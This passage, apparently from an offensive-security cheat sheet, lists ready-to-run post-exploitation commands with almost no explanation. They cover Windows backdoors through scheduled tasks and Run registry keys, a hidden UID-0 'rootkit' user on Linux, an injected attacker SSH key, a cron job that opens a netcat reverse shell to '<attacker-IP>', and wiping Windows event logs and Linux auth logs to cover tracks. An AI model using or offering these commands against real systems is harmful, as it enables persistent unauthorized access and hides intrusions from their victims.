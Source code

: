 ```powershell
schtasks /create /tn "Backdoor" /tr "C:\reverse.exe" /sc onlogon /ru SYSTEM  
```

#### **Creating a Registry Backdoor**

```powershell
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Backdoor /t REG_SZ /d C:\reverse.exe  
```

* * *

### Linux Persistence Methods

#### **Creating a New Root User**

```bash
sudo useradd -o -u 0 -g 0 -M -d /root -s /bin/bash rootkit  
sudo passwd rootkit  
```

#### **Adding a Backdoor SSH Key**

```bash
echo "attacker-ssh-key" >> ~/.ssh/authorized_keys  
```

#### **Setting Up a Cron Job for Persistence**

```bash
echo "*/5 * * * * root /bin/bash -c 'nc -e /bin/bash <attacker-IP> 4444'" | sudo tee -a /etc/crontab  
```

* * *

## 9\. Cleaning Up - Covering Tracks

### Clearing Windows Event Logs

```powershell
wevtutil cl System  
wevtutil cl Security  
wevtutil cl Application  
```

### Deleting Linux Logs

```bash
> /var/log/wtmp  
> /var/log/btmp  
> /var/log/auth.log  
history -c  
```

* * *
